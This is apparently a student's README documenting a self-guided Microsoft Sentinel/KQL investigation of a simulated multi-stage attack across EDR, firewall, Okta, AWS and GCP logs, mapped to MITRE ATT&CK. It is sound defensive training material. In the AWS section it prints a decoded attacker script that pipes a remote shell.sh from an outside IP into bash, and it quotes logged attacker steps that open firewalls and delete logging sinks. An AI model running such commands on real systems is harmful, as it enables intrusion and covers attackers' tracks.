# SOC Investigation & Detection Engineering with Microsoft Sentinel and KQL

### Explaining my walkthroughs and thought processes in Microsoft Sentinel SOC investigations using KQL across CrowdStrike EDR, Palo Alto firewall, Okta identity, and AWS CloudTrail logs. Includes KQL detection rules, threat hunting queries, and MITRE ATT&CK mapping. 
<br>

### All parts done in order by nuber and the other 14 parts can be found in directories above (or after "part 4" documentation below). 

---

# Part 4 – Full manual SOC investigation doucmentation with MITRE ATT&CK Mapping (Ordered SOC Investigation Timeline). Extensive main investigation of the lab that all other parts work around. 

---

# Overview & Methodology

### The main investigation ("part 4" documented in this README) was 100% self-guided and not included in the original lab. I chose to add this part myself to perform a full end-to-end manual investigation using my own queries and reasoning *without* the lab's supplied deployed rules. I only compared the list of deployed rules upon completion of my self-guided mapped out attack. My reasoning for this was:
- #### 1). I know that there aren't custom rules for every attack that SOC's see, and that pattern recongition and attack-chain analysis are crucial when it comes to responding to novel attacks in a timely and effective manner, and
- #### 2). I really enjoy the detection learning process and finding how/where cyber attacks develop using my own knowledge of MITRE attack techniques, networking, and different attack patterns!

<br>

### This ended up being a fantastic simulation exercise and I gained what I feel was extremely valuable experience working through the multi-stage attack detection in Sentinel. In the detection I strengthened my ability of KQL querying and overall understanding of a wide variety of ingested logs/data, such as firewall tools (Palo Alto Network), EDR tools (CrowdStrike), IAM platforms (Okta), and cloud platforms (AWS CloudTrail and Google Cloud Platform). 

### There were many "aha" moments, lots of connecting the dots, many moments where I had to circle back after gathering more information, and admittedly some moments where I made mistakes - but those actually ended up being some of the areas where I learned the most!

--- 

# Final MITRE ATT&CK Mapping of Complete Multi-Stage Attack on PKWork Network/Cloud (In Order of Attack Progression)

## Phase 1 - Initial Access

| # | Technique ID | Name | Description |
|---|---|---|---|
| 1 | **T1566.001** | Spearphishing Attachment | report.exe delivered via email to mirage@pkwork.onmicrosoft.com from spoofed pkwork-hr.com - SPF, DKIM, and DMARC all failed |
| 2 | **T1566.002** | Spearphishing Link | report.exe was technically a hyperlink clicked on |

---

## Phase 2 - Execution

| # | Technique ID | Name | Description |
|---|---|---|---|
| 3 | **T1204.002** | User Execution: Malicious File | report.exe executed on win11a at 7:10:34 AM; CrowdStrike alert fired with objective "gain access" |

---

## Phase 3 - Credential Access

| # | Technique ID | Name | Description |
|---|---|---|---|
| 4 | **T1003.001** | OS Credential Dumping: LSASS Memory | LSASS credential dumping confirmed true_positive on win11a, srv-file01, and it-ws01 immediately post-execution - domain credentials harvested to enable lateral movement |

---

## Phase 4 - Lateral Movement & Discovery

| # | Technique ID | Name | Description |
|---|---|---|---|
| 5 | **T1021.002** | SMB/Windows Admin Shares | Harvested credentials used to move laterally via SMB; automated spread to win11b, win11c, win11d, srv-file01, srv-dc, it-ws01, and dev-ws01 - all hit in simultaneous wave at 7:10:34 AM |
| 6 | **T1046** | Network Service Discovery | Full /24 subnet sweep from win11a (10.0.1.50) - ~250 hosts probed on randomized sequential ports to evade per-host detection thresholds; concurrent with lateral movement |

---

## Phase 5 - Impact & Collection (On-Premises)

| # | Technique ID | Name | Description |
|---|---|---|---|
| 7 | **T1486** | Data Encrypted for Impact | Ransomware behavior confirmed on dev-ws01 following security tool tamper attempt - encryption occurs on endpoints before data is beaconed out |
| 8 | **T1074.001** | Local Data Staging | Sensitive files aggregated on it-ws01 (4 staging alerts) and win11b before exfiltration - consistent with collection hop pulling files from srv-file01 via SMB |

---

## Phase 6 - C2 & Exfiltration (On-Premises)

| # | Technique ID | Name | Description |
|---|---|---|---|
| 9 | **T1567** | Exfiltration Over Web Services | Large-volume outbound transfer from win11a to 192.0.2.100 over HTTPS port 443 - CDN-style channel used to blend with trusted traffic |
| 10 | **T1048** | Exfiltration Over Alternative Protocol | Secondary exfil/C2 channel to 192.0.2.100 over DNS port 53 - confirmed by Palo Alto C2 categorization |
| 11 | **T1008** | Fallback Channels | Three attacker-controlled IPs used for redundant C2: 192.0.2.100 (primary C2 server), 198.51.100.42 (attacker's working machine), 203.0.113.77 (backdoor-svc operations) - confirmed by cross-referencing Palo Alto against CloudTrail |

---

## Phase 7 - Identity Compromise (Okta)

| # | Technique ID | Name | Description |
|---|---|---|---|
| 12 | **T1556.006** | Modify Authentication Process: MFA Policies | MFA factors reset for CEO and others, SMS factor deactivated for Priya Sharma, new TOTP enrolled on attacker-controlled device - 6 accounts compromised; simultaneous logins from geographically impossible locations confirm automation |
| 13 | **T1136.003** | Create Account: Cloud Account | Backdoor API token created in Okta by mirage after super admin escalation - bypasses login flow entirely and persists after password changes; also covers backdoor-svc in AWS and backdoor-svc-gcp in GCP |

---

## Phase 8 & 9 - AWS Cloud & GCP Cloud Intrusion (many shared techniques demonstrated in both so grouped together)

| # | Technique ID | Name | Description |
|---|---|---|---|
| 14 | **T1580** | Cloud Infrastructure Discovery | ListUsers, ListGroups, ListRoles, ListAccessKeys, DescribeVpcs, DescribeSubnets, DescribeSecurityGroups, DescribeNetworkInterfaces - full AWS environment and network topology mapped |
| 15 | **T1098** | Account Manipulation | backdoor-svc created with admin privileges; login profile set with no required password reset - also covers GCP backdoor-svc-gcp owner role grant and deploy-pipeline privilege escalation |
| 16 | **T1562.007** | Impair Defenses: Disable or Modify Cloud Firewall | AWS security group sg-0a1b2c3d4e5f67890 opened to 0.0.0.0/0 on all ports; GCP firewall rule allow-all-ingress created with identical scope - both cloud environments fully exposed |
| 17 | **T1496.001** | Resource Hijacking: Compute Hijacking | 5x p3.16xlarge GPU instances in AWS and 3x a2-highgpu-8g instances in GCP (crypto-miner-01/02/03) launched for cryptocurrency mining |
| 18 | **T1027** | Obfuscated Files or Information | EC2 userData payload Base64-encoded to conceal the malicious curl command from casual inspection |
| 19 | **T1059.004** | Command and Scripting Interpreter: Unix Shell | Decoded userData = bash script curling shell.sh from attacker-controlled server at 185.220.101.55 - executes on every instance boot |
| 20 | **T1105** | Ingress Tool Transfer | shell.sh pulled from 185.220.101.55 at boot - hosted externally and updatable by the attacker at any time without re-accessing the AWS environment |
| 21 | **T1546** | Event Triggered Execution | userData script fires automatically on every EC2 instance boot - persistence that survives credential rotation and IAM changes entirely |
| 22 | **T1562.008** | Impair Defenses: Disable or Modify Cloud Logs | AWS: StopLogging then DeleteTrail on management-events-trail. GCP: deleted export-all-logs sink (kills SIEM forwarding) then disabled _Default sink (kills local logging) - more thorough in GCP than AWS |
| 23 | **T1530** | Data from Cloud Storage | AWS: api-keys-production.json, hr/employee-records-full.csv, finance/2026-budget-final.xlsx pulled from S3. GCP: financial-report-2026.xlsx, employee-pii-export.csv, api-keys-production.json pulled from pocaas-confidential-data |
| 24 | **T1072** | Software Deployment Tools | deploy-pipeline account granted serviceAccountTokenCreator by mirage - CI/CD pipeline weaponized; deploy-pipeline uploads app.jar to deployment bucket and redeploys web-frontend-01 |

---
 
# Part 4 - Full Sentinel PKWork Incident Investigation 

## For this portion of the lab, I'm going to document my full thoughts and processes as I manually detect and map out the phases of the PKWork attack to their specific MITRE techniques. Since the MITRE grid didn't output as intended (see part 3), we weren't able to simply map out the attack according to it. The lab deployed rules take us through the attack phases one by one (with their names), but I want to trace the attack phases without them and simulate a *real-world SOC investigation* as if we don't have the custom deployed rules already.

## 4.1: Identifying the Initial Payload

#### We will use the deployed rule for *only* the first stage only to give us a starting point.

Here we see the first stage of the attack: A phishing email that bypassed MailGuard SEG from IP: "198.51.100.42" with the payload: "report.exe".




We see here that the MITRE techniques involved are **T1566.001** (spearfishing attachment) and **T1566.002** (spearfishing link).

This valuable info, especially the payload file, as well as the below findings will be key to tracing the compromise and its next developments:



Here we have the email it was delivered to: "mirage@pkwork.onmicrosoft.com", the recipient user: "mirage", and the time of the email: 7:08:40 AM on May 22nd.

This is crucial because we now know when to reference time-wise for next stages of the compromise, as well as the email/user on this device (device that will presumably be compromised).

Clicking into the query that actually fired the alert, we see some more specific details regarding the email, including the SPF, DKIM, and DMARC results, the email subject, and the sender's address/domain:




We see that SPF, DKIM, and DMARC all fail, which makes me wonder why MailGuard let the email through. We also see that the sender's domain "pkwork-hr.com" is spoofed, as the real one would have "onmicrosoft.com" in it.

---

## 4.2: Execution of Malicious File (Initial Compromise)

#### Now to find the next stage of the attack, we know that we are working with an endpoint device that was sent a malicious payload, so we know we'll need to query a CrowdStrike table (the EDR vendor in this environment). 

Since we have worked with the CrowdStrikeAlert table so far, we will query it to see if its columns/data includes a user so we can correlate with the hostname and the rest of the attack:



We can see here that CrowdStrikeAlerts contains the columns "UserID" and "UserName," which is seem like what we're looking for but let's see how they're formatted:



As we can see, even though they're columns in the table, they're blank in every entry. The same goes for the "SourceIps" and "FileName" columns. In fact, all of the following searches returned no results:

```
CrowdStrikeAlerts
| search "report.exe"

CrowdStrikeAlerts
| search "mirage*"

CrowdStrikeAlerts
| search "198.51.100.42"

CrowdStrikeAlerts
| search "*pkwork-hr.com"
```

We will need to take a different approach: Since we've ruled out any query working with the known payload filename, sender IP, sender email, and destination user/email. Let's inspect deeper regarding the type of payload: We know the malicious file is a .exe file that will be run, and looking at the "Names" column of the table, we see "User Execution: Malicious File" and "Malicious PowerShell Execution":



One of these will undoubtedly be the "Name" of the alert that fires when the user clicks on the phishing link and report.exe runs.

On top of that, we know that the time of the email was 7:08:40 AM on May 22nd, and that there is a "TimeGenerated" column. Also there is a "Status" column that tells whether the alert is a false or true positive. Let's put all of it into a query and see what returns:




### Looks like that did it! We can see the "Name" of the alerts is "malicious powershell execution", and the attacker's objective is "gain access," which lines up perfectly with what presumably occurred in the initial compromise of running report.exe. 

This maps cleanly to MITRE technique **T1204.002**: User Execution: Malicious File.

#### We also get the golden nuggets of what we need to continue our trace: Mirage user's infected host machine mentioned in AgentId: "win11a", and that the payload was executed at 7:10:34 AM on May 22, 2026!

---

## 4.3: Credential Dumping

#### Now that we know the device infected and the time of infection, we can narrow down our CrowdStrikeAlert query to analyze the malicious activities from the infected machine that followed:



So scrolling through the 14 results from the query of true positives on the infected machine, we see they all have the same exact time generated, so we won't be able to simply chronologically map the attack sequence.

On top of that, we unfortunately don't see anything relating to commandline or child/parent process IDs, so we can't find what the report.exe spawned exactly.

### We do see credential harvesting from LSASS though on the infected machine!:



This is the next stage in our attack and these alerts maps to MITRE technique **T1003.001**: "Extracting credentials from the Local Security Authority Subsystem Service (LSASS) process on Windows"

#### These are both true_positives and will very likely be a major attack vector going forward to keep an eye on.

---

## 4.4: Lateral Movement via SMB

#### Looking over the CrowdStrike logs, I'm realizing that I was treating the "AgentID" column as the sourceIP, thinking that it would have to be win11a to infect the other hosts, when in reality AgentID is simply the endpoint device associated with the alert. 

This makes a lot more sense considering CrowdStrike is our EDR tool and not one that monitors network/transmission. With that in mind…

We see something glaring when searching other endpoint devices after the initial compromise: There appears to be lateral movement:



Of the given agentIDs/DisplayNames:



### We can see our lateral movement alert to win11d via smb! 

This was almost certainly achieved using the credentials harvested prior. This specifically maps to **T1021.002**: "Adversaries may use Valid Accounts to interact with a remote network share using Server Message Block (SMB). The adversary may then perform actions as the logged-on user"

---

## 4.5: Scope of Infection & Network Scanning

### Removing the win11a filter, we now that we see at least 7 machines have been infected:




Win11a, win11b, win11c, win11d, srvfile, srvdc, itws, and devws01.

We want to check if palo alto detected any more potential movement between these hosts and/or outgoing to an attack beacon.

Just to get a refresher on what columns we can utilize in Palo Alto, lets run a getschema first:


Analyzing TimeGenerated, and SourceHostName, let's see what hosts were involved in network activity as the source:



#### We get only one source host: win11a, and we also get its IP: 10.0.1.50

A common technique once attackers are into the target network, is to move to the file server to exfiltrate and/or encrypt important documents.

So let's try to identify traffic to "srvfile" - it clearly seems like a file server based on the name, and we know it's been infected and most likely had files encrypted (ransomware activity as seen above) so we know that if the movement shows up on Palo Alto, it would have the destination port 20, 21 (both FTP), 22 (SFTP), 139 (NetBIOS) or 445 (SMB), so let's query that:



We see that all of the logs with ports having to do with file transfer have the destinationIP: 10.0.1.200, so it seems fairly likely that is our fileserver IP address. 

#### There is actually something separate here though that we notice that raises red flags: These 4 port connections all getting blocked/dropped seems indicative of a port scan:


Let's remove the file-only port filter to see all ports that dropped connections:



### We can see when the destination IP is 10.0.1.200 that the very commonly used ports' connections are being dropped at the same time, which strongly points to a targeted automated scan. This also is a strong indicator that this is a file server (or another important device) that the attacker really wants access to.

The other destination IPs though almost seem random as well as their target ports, which seems more like a randomized optimistic scan, just hoping something random is vulnerable:



#### Actually scrolling through all of it, it seems like the whole /24 subnet is scanned, so all 254 IPs on the subnet. It seems like there are about 1 or 2 ports per IP address scanned (or attempted).

Regardless, we have our next documented stage of the attack: MITRE ATT&CK **T1046**: Network Service Discovery. This differs from 1595: Active Scanning, as 1046 "refers to Network Service Discovery (Discovery) used to map internal services once access has been established," while 1595 is "scanning to find a way in" according to MITRE.org.

#### Whether this network scanning occurred before or after the lateral movement is difficult to say given we don't have any time difference or process relationships. It's equally as likely that report.exe executed a script automated these operations to occur simultaneously.

---

## 4.6: C2 Beacons & Data Exfiltration

#### Pivoting back to potential lateral/outgoing beacon connection, it seems like we have gleaned about as much as we can out of the palo alto logs in regards to interior movement/scanning. 

Unfortunately it also seems like we can't get ThreatIntelIndicators logs from the time of the attack, as I connected to MDTI after the attack (had to make a new account):



So now let's look at successful movement to potential external IPs, since we know that encrypting has very likely occurred on the file server. An attacker's next move would very likely be to send exfiltrated info/victim info (like an ID to identify victim's network & where payment will potentially come from) to an attacker server.

We know that any outgoing connection would require a DNS resolution first, to translate the IP to a domain name, so we can try filtering by port 53 first:

### Here we have some valuable info: There are 4 connections out to IP=192.0.2.100, all with command-and-control (C2) descriptions. This is highly indicative of that IP indeed being the C2 beacon, but there may be multiple…

Keeping "deviceCustomString1" (which seems to tell us the means by which the data was delivered in the connection), "Activity == end" to confirm it was a successful connection, and switching to see all Dest ports, we can see:



There are a few things to note here: first off, it looks like there are actually many more connections to this C2 beacon through 443 HTTPS actually than 53 DNS. This is actually important to note, as it tells us they have two simultaneous C2 channels running, most likely for redundancy in case of one getting blocked.

#### Looking at these connections specifically though, one of them has a MASSIVE amount of outgoing bytes - all going to IP 192.0.2.100. They use port 443 this time most likely to blend in with trusted traffic.

### We can assume at this point that 192.0.2.100 is the main attacker C2 server, and that the CDN connection to it (pictured above) is the major data exfiltration connection we are looking for!

Now that that's settled, we want to check that 192.0.2.100 is the only C2 beacon, so we can run a command showing only external (can't start with 10.) dest IP addresses when devicecustommstring1 is "command-and-control":



It returns 21 results and although 17 of them are to 192.0.2.100, scrolling down we actually see two other IP addresses: 198.51.100.42 and 203.0.113.77. These are likely additional attacker machines and/or beacons making C2 connections for redundancy, but we will definitely keep an eye out for those IPs going forward!

There is an exact MITRE technique for this situation: **T1567** - "Adversaries use existing, legitimate external web services (like CDNs) to exfiltrate data." In addition, since we saw DNS used as well, **T1048**: "The most common technique for moving data to an external IP via a protocol other than the main Command and Control channel (HTTPS/HTTP is typical, DNS is not."

Also, in reference to the multiple C2 channels, that would map to **T1008**: "Describes adversaries using alternate C2 channels as a backup in case the primary is interrupted or blocked. The idea being that if defenders detect and block the main beacon, the attacker doesn't lose access because the implant automatically falls back to a secondary channel."

---

## 4.7: Persistence Detection

#### I know that attackers love to create persistence early before making too much noise on the victim network. 

At this point with confirmed credentials harvested, lateral movements, data exfiltration, and a clear C2 beacon connection, you'd certainly think they would've created a backdoor by now. Shifting our focus to only the nature of the alerts, it seems like CrowdStrike gives us more info regarding the nature of the actual event itself. We remember from 4.2 that crowdstrike includes "objective" that explains the purpose of the connection initiated, so let's check that (but still making sure the alerts are after the initial compromise):



### Looking at the objectives of the alerts, we see "Maintain Presence," In the alerts with "Maintain Presence", we see a C2 beacon detection as well as a C2 Network connection...

This seems inherently like it would be the backdoor persistence we are looking for, but this could very well just be continuous pinging of the C2 server to ensure connection is still enabled. We don't see any new users created on windows AD (no privilege escalation, and maintain persistence is only on win11a) so let's check softwares and utilities to see if backdoor access was created instead in the cloud/MFA.

---

## 4.8: Okta MFA Compromise

#### It would make sense to check the Okta MFA logs to see if any backdoor persistence activity like creating new users/changing MFA rules has occurred, or if the harvested credentials were to login to existing accounts in Okta logins.

First we will view the table at the time of the attack:



### We immediately see many red flags right from the get go. Just like the rest of the attack, we see all 36 Okta events fired at the same exact time during the attack, which tells us that these were all automated. 

We are seeing extremely concerning EventMessages such as Grant user super admin role to mirage, then "Reset all MFA factors for user CEO PKWork", "Deactivate SMS factor for user Priya Sharma", "Enroll new TOTP factor for attacker-controlled device", etc.

Scrolling down some more:



We see 6 users accounts successfully compromised - clearly of varying levels of roles/privileges (super admin role, CEO credentials, etc.) - and when checking the location of the logins:





#### We notice 2 things: That the main attacker on mirage's compromised device is logged in from Moscow, suggesting that is the site of the infrastructure and source of the atack. On top of that, we see the activity is from *all over* the place 

And again, at the same time - so obviously automated… Even logins to the same account are from different areas/stats completely (same exact event message like "Authentication of user via MFA" multiple times for the same users in different locations) which obviously indicates impossible travel (if we didn't already know the accounts were compromised).

### We can certainly conclude that the privilege escalation indeed came from credential harvesting of multiple accounts and bypassing of Okta MFA security measures. 

This would map to MITRE technique **T1556.006**: "Disabling or weakening MFA policies to bypass secondary verification."

---

## 4.9: Okta Backdoor Creation

#### As for backdoor creation, when adding the column "OriginalTarget" to our query:



### We can see there is an event that we had looked over before: Create API token. 

API tokens can be created on Okta by high level users (Mirage after escalation to super user) to bypass the whole login flow and even persist after passwords change. Expanding the event, we can also see the Original Target tells us that a "backdoor API" was created.

This maps cleanly to MITRE technique **T1136.003**: "refers to the Cloud Account sub-technique under "Create Account". In the context of Okta, this involves adversaries abusing administrative or Identity Provider (IdP) APIs to create rogue Okta user accounts or API tokens for persistence and lateral movement" (MITRE.org).

#### Since we established in 4.7 that there appear to be no windows AD accounts created, it must be a cloud service, indicated in the MITRE technique description.

---

## 4.10: AWS Cloud Intrusion

#### We know that cloud service used in this network is AWS cloud trail, and I'm sure the attacker(s) wreaked havoc on the cloud once they gained access and higher privileges. We will take a look but first will get familiar with the AWSCloudTrail table:



Already we see a user being created and when expanding the event:



### We can see this is indeed the backdoor user created that has no mfa authenticated and is literally named "backdoor-svc."

#### Examining more events regarding the new user, we can see when expanding this one that the new user (backdoor-svc) is being given admin privileges:



There seem to be lots of indicators of malicious actions here, and even though they all fired at the same exact time, they actually seem like they are ordered from first to last, so let's investigate them:



#### I noticed an alert for AuthorizeSecurityGroupIngress, which allows "ipProtocol": "-1" (any port) and "cidrIp": "0.0.0.0/0" (any Ip address) access to the groupId: sg-0a1b2c3d4e5f67890.



### This means that anyone on the internet can view an instance spun up by that group in AWS!

The next event that caught my eye was mirage running an instance of p3.16xlarge:



### After doing quick research, I found this is a high-performance, GPU-accelerated AWS EC2 instance often used by attackers to mine crypto, password cracking, and more - and the attacker ran the instance 5 times!

Next I noticed that the attacker attempts to stop logging and deleted previous logs for the mirage account:




Shortly after this, we see 2 logins from "eve.hacker," from a different IP than mirage and backdoor-svc.



This is the only activity we see from that user (and that IP), and I'm thinking it's almost to throw the victim off the trail if they were to have reacted quickly. I think when the user was created from a different IP (also indicative of a decoy), the logs didn't show because of the ceasing of logging from CloudTrail shown previously, and that it's intended to confuse the victim, even if just temporarily.

#### For this ModifyInstance event, I noticed that the userData was in what looked like base 64 encoding ((A-Z), (a-z), (0-9), "+", and "/"): "IyEvYmluL2Jhc2gKY3VybCBodHRwczovLzE4NS4yMjAuMTAxLjU1L3NoZWxsLnNoIHwgYmFzaA=="



Given that base64 can be reversed, I just quickly looked up a base64 decoder and entered it in:



Above we can see a short bash script:

```bash
#!/bin/bash
curl https://185.220.101.55/shell.sh | bash
```

### This bash script is now modified into that specific instance via userdata so whenever it next boots, it connects to the attacker server at https://185.220.101.55 and runs the shell script hosted on that site - which can be updated/modified by the attacker at any time.

So this means the attacker doesn't need to access the AWS environment again for the script to be edited. The attacker surely attempted to do this in a way where the victim wouldn't notice until the instance was next booted, but luckily our logs showed up in Sentinel despite him/her deleting the logs within Cloud Trail.

Next it looks like a login profile is created for the backdoor-svc admin user set to have no required password reset, and then confirms it works a few events later with ConsoleLogin as backdoor-svc:



It also looks like the new user is also disassociating its mirage profile with the expensive instance it created to eliminate the possibility that it will be associated with the logs that the instance creates:



Now for the most critical events - we can see Mirage accessing what sounds like extremely important and sensitive documents with GetObject:





### This shows Mirage accessing api-keys-production.json, hr/employee-records-full.csv, and finance/2026-budget-final.xlsx . We can also see the source IP is 198.51.100.42, which means the attacker most likely just downloaded the sensitive info straight to his device in Moscow. 

I wanted to clarify this to see if this info was involved in the exfiltration from 4.6 (from 10.0.1.50), but looks like it isn't. That connection must've been primarily sensitive files from srvfile.

A few more secondary events logged from attacker activity not mentioned above: ListUsers, ListGroups, ListRoles, ListAccessKeys - mapping out the entire AWS environment. Also DescribeVpcs, DescribeSubnets, DescribeSecurityGroups, DescribeNetworkInterfaces - mapping the network topology.

---

## 4.11: GCP Cloud Intrusion

#### Doing a sweep of all of the tables, I realized that I totally missed one of the cloud platform tables! 

Because it's an acronym and there are only 25 total logs in it, I had skipped over it before, but we have yet to analyze GCP (Google cloud platform) logs, so let's do that now!

Getting familiar with the table, it looks pretty similar to AWS in terms of the columns and functions of the cloud platform:



#### A few things are catching my eye at the moment:




### Similarly to AWS, mirage is creating a backdoor account first-thing (backdoor-svc-gcp) and giving it admin/owner privileges as we can see above.



#### Also exposing the account's instances, workloads, and processes to anyone on the internet with:

```
@type: type.googleapis.com/compute.firewalls.insert
Name: allow-all-ingress
Direction: INGRESS
Allowed: [{"IPProtocol":"all"}]
sourceRanges: ["0.0.0.0/0"]
Priority: 100
```




#### Also very similarly running multiple instances of high GPU consumption for crypto mining:

```
@type: type.googleapis.com/compute.instances.insert
Name: crypto-miner-01 & crypto-miner-02
machineType: zones/us-central1-a/machineTypes/a2-highgpu-8g
Disks: [{"boot":true,"initializeParams":{"sourceImage":"projects/ubuntu-os-cloud/global/images/family/ubuntu-2204-lts"}}]
```



### Then it lists confidential info bucket with storage.objects.list and goes on to access 2 sensitive documents (financial-report-2026.xlsx & employee-pii-export.csv) with storage.objects.get.



The next two logs are modifying the "sink" which is essentially the setting that determines where GCP logging goes (SIEMS, etc.). The first one deletes the sink request:

```
@type: type.googleapis.com/google.logging.v2.DeleteSinkRequest
sinkName: projects/pocaas-prod-01/sinks/export-all-logs
```

### This essentially blocks logging to SIEMS and other external resources.

Then the second one updates the sink request:

```
@type: type.googleapis.com/google.logging.v2.UpdateSinkRequest
sinkName: projects/pocaas-prod-01/sinks/_Default
Sink: {"name":"_Default","disabled":true}
```

#### Which as we can see turns off the sink logging inside the GCP.

Next the account of Jane.Smith is used to list all of the VM instances in the project, and get the details of one VM (web-frontend-01) with: compute.instances.list and compute.instances.get

Then, an account called deploy-pipeline@pocaas-prod-01.iam.gserviceaccount.com lists files in bucket pocaas-app-logs, then Uploads a build artifact (JAR file) with:

```
@type: type.googleapis.com/storage.objects.create
Bucket: pocaas-deploy-artifacts
Object: releases/v3.1.0/app.jar
```

### Then the same account stops and redeploys an instance of VM web-frontend-01 with instances.stop and instances.start.

#### After that bob.jones account is used to read project IAM permissions, list all service accounts in project, and list VMs again with "GetIamPolicy," "ListServiceAccounts," and "instances.list."

Then eve.hacker tries to create a service user but gets denied, then tries to escalate privileges and also gets denied for that. Seems to me like she is playing decoy again here.



In our last little cluster of logs here, we see that the backdoor account creates another VM running another compute harvesting instance:

```
name: crypto-miner-03
machineType: a2-highgpu-8g
```

And lastly, mirage gains access to API keys with storage.objects.get:

```
api-keys-production.json
bucket: pocaas-confidential-data
```

Then makes deploy-pipeline user a token creator through IAM privilege escalation:

```
roles/iam.serviceAccountTokenCreator
→ applied to deploy-pipeline@
```

### This essentially allows deploy-pipeline to generate access tokens, impersonate CI/CD pipelines, and move laterally in the cloud.

---

## 4.12: AWS CloudTrail/Google Cloud Platform MITRE Mapping

#### There was a lot of malicious activity that occurred in 4.10 and 4.11 to map to MITRE:

The first would be the creation of the backdoor-svc account in the first place (in both GCP and AWS) which maps to **T1136.003**: "Adversaries create secondary accounts within cloud or SaaS environments (like AWS, Azure AD, or Google Workspace) to maintain persistent access to a compromised system without needing to install obvious malware or backdoors."

Following that would be the fact that Mirage (already had admin privileges from Okta compromise) gave admin privileges to backdoor-svc in AWS. This all maps to technique **T1098**: "Refers to Account Manipulation. It is a method used by adversaries to quietly modify, hide, or abuse existing user and administrator accounts to maintain persistent, long-term access to a compromised network or to escalate their privileges." Since it is just a console password and not an access key for AWS backdoor-svc, base 1098 seems accurate.

For GCP specifically, The CreateServiceAccountKey call explicitly creates a standalone RSA-2048 key for backdoor-svc-gcp. This is a persistent credential that lives independently of any password - it doesn't expire by default and survives password resets, making it the textbook example of **T1098.001**: "A highly specific method where an attacker adds their own adversary-controlled credentials (like API keys, certificates, or SSH keys) to a compromised cloud account."

The next is the use of jane.smith and bob.jones to map of the environment, topology, users, lists, instances, infrastructure/VMs, etc. of the network (GCP and AWS) - **T1580**: "Cloud Infrastructure Discovery. It describes how adversaries - after compromising an environment - use APIs or commands to map out your cloud infrastructure, pinpointing virtual machines, databases, and storage buckets before planning their next attack."

Allowing anyone on the internet to access (GCP and AWS) the instance with "ipProtocol": "-1" (any port) and "cidrIp": "0.0.0.0/0" would map to **T1562.007**: "This technique describes an adversary who intentionally alters these configurations to bypass those security controls."

Next would be the 5 compute expensive instances (p3.16xlarge) run in AWS, and 3 run in GCP (crypto-miner-01 through 03) which would both map to **T1496.001**: "attackers illicitly gain access to a victim's computing power (such as CPUs, GPUs, or cloud servers) to run resource-intensive tasks, most commonly cryptocurrency mining."

After that is the deleting/prevention of AWS logs, the disassociation of Mirage's account with the compute harvesting instances it spun up, and the modification/deletion of the GCP sink - these all map to **T1562.008**: "A sub-technique within the MITRE ATT&CK® framework that refers to adversaries disabling or modifying cloud logs to cover their tracks." It is worth noting though that in AWS mirage simply disables CloudTrail logs, whereas in GCP he/she attempts to disable GCP logs AS WELL AS SIEM forwarding.

The next one would be the modification of the instance with the decoded curl command (Only AWS). This one in particular maps out to a few different techniques. The first one refers to the bash command itself - **T1059.004**: "Shell sub-technique within the broader 'Command and Scripting Interpreter' execution tactic." The next one refers to the injection aspect - **T1105**: "refers to Ingress Tool Transfer, which describes how threat actors move malicious tools, scripts, or files from an external, attacker-controlled system into a compromised environment." After that, referring more to the encoded command aspect, is **T1027**: "refers to Obfuscated Files or Information, a defense evasion technique where adversaries attempt to make files or code difficult for security analysts and automated tools to discover, analyze, or understand." The last one is general and probably the most fitting - **T1546**: "threat actors and adversaries establish persistence or elevate privileges on a compromised system by setting up malicious code that runs automatically when triggered by specific system events."

The next one is exclusive to GCP: The deploy-pipeline account uploading app.jar to pocaas-deploy-artifacts and then stopping/restarting web-frontend-01 is CI/CD pipeline abuse - the attacker granted themselves serviceAccountTokenCreator on that account specifically to weaponize the deployment pipeline. This is abuse of software tools and maps perfectly to **T1072**: "Describes how threat actors leverage centralized administrative, management, and monitoring software to execute malicious commands, install malware, or move laterally across an organization's network"

The last one is the big one - the exfiltration of the sensitive files/buckets (GCP and AWS) which simply maps to **T1530**: "where adversaries gain access to and steal sensitive information directly from cloud-based storage."

---

## 4.13: Tying It All Together

#### Tying everything together, there were a few logs from earlier parts that didn't exactly receive an explanation at the time, but I wanted to complete the lab and see if I got answers, and for most of them I did!

For the IP addresses acting as backup beacons from part 4.6 (198.51.100.42 and 203.0.113.77), we said we would keep an eye out for them, and we saw both of them in the Cloud Trail activity. Turns out 198.51.100.42 was the attacker's machine that the attack was running from, as it was the IP running mirage in Cloud Trail (as seen in screenshots in 4.11). As for 203.0.113.77 appeared to be a secondary attacker machine, as it was the IP running the backup-svc backdoor account in Cloud Trail:



### This confirms both 203.0.113.77 and 198.51.100.42 are indeed attacker-controlled hosts, and that the same machines conducting C2 communications out of the attacker network were also being used to operate the AWS mirage and backdoor accounts, directly linking the two attack chains.

As for the other hosts on the victim network: Win11a, Win11b, Win11c, Win11d, srv-file01, srv-dc, it-ws01, and devws01, I thought they would come up more but didn't really beyond the crowdstrike alerts in part 4.5. In conclusion though, across the entire compromised environment, every infected host (listed above including win11a as well obviously) was observed running malicious PowerShell executables at some point during the attack. LSASS credential dumping was confirmed on srv-file01 and it-ws01 (and win11a), indicating the attacker harvested domain credentials to perform lateral movement. Win11b and it-ws01 were also involved in sensitive file staging, consistent with data being aggregated for exfiltration. devws01 stood out as the most critical endpoint finding - beyond PowerShell execution, it showed security tool tampering and suspected ransomware behavior, indicating potential that the attacker encrypted sensitive source code (since we know it's a dev workstation) and extended beyond just exfiltration and cryptomining.




In part 4.5, I noted that srvfile potentially had files encrypted due to this query's results:


#### I was under the impression that srvfile and src_dc were also subject to ransomware compromise, but when I filtered out the false_positives, as seen above in the refined query's results, it turns out that only the developer workstation was subject to it.

In the grand scheme of things, this really doesn't change much in terms of the overall logistics of the attack - the C2 beacon(s) were connected to the originally infected workstation (win11a) through DNS/HTTPS channels and data was exfiltrated from the hosts that staged the sensitive files (win11b and it-ws01) - which were sent to win11a - as well as presumably encryption/device info regarding the ransomware on on devws01, and large volumes of that data were sent through the C2 channels to external attacker devices.

For user eve.hacker on AWS and GCP, who we assume was a decoy to draw attention from real attack, we never necessarily got confirmation that it was a decoy user, but all signs point towards that. In terms of MITRE mapping, I did some research on it and found that there is actually no MITRE ATT&CK Framework technique that a decoy attacker would map to. I was a bit surprised by this, but I know that the MITRE D3FEND Framework has decoy objects like honeynets, honeyfiles, and even honeyusers/honeyaccounts. I almost think of this like a honeyuser but in the opposite direction - one to throw the victim blue team off the attacker's trail, get them to target/focus on the wrong thing, and/or potentially confuse the victim blue team. 

---

## 4.14: Conclusion
